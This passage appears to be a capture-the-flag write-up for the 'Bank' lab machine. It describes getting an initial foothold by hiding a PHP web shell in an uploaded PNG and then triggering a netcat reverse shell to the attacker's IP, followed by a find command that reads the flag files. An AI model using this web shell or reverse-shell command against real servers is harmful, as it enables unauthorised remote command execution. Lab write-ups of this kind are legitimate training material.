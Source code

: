 
Enter `PHP` payload to call a system function to make a HTTP request to execute a command
```
<?php system($_REQUEST["cmd"]);?>
```
![[Pasted image 20240715192727.png]]


Upload and navigate to the endpoint to inspect
![[Pasted image 20240715193232.png]]

We get no errors loading the page but its empty. 
Remember, we deleted most of the image data earlier.


Pass a command to the URL endpoint so the php function to execute
```
http://bank.htb/uploads/bank1.png?cmd=ls
```

This does not work. 


Upon further inspection of the login page source code, we find this developer note:
![[Pasted image 20240715193723.png]]


Modify the payload in BURP and change extension
![[Pasted image 20240715194438.png]]

This was accepted but did not run the `php` command successfully

I went back to the original `PNG` file and deleted further down the file, around line 42 instead and reinserted my php code

![[Pasted image 20240715195116.png]]

Try inserting command in url
![[Pasted image 20240715195136.png]]
![[Pasted image 20240715195210.png]]
***

**INTITIAL FOOTHOLD**
Start NC on attacker 
Send a url encoded payload as a command

```
http://bank.htb/uploads/bank.htb?cmd=nc%2010.10.16.9%205555%20-e%20/bin/bash
```

![[Pasted image 20240715195511.png]]

Upgrade shell with python
Use find to locate flags
```
 find / \( -iname "user.txt" -o -iname "root.txt" \) -print -exec cat {} + 2>/dev/null
```
![[Pasted image 20240715195910.png]]

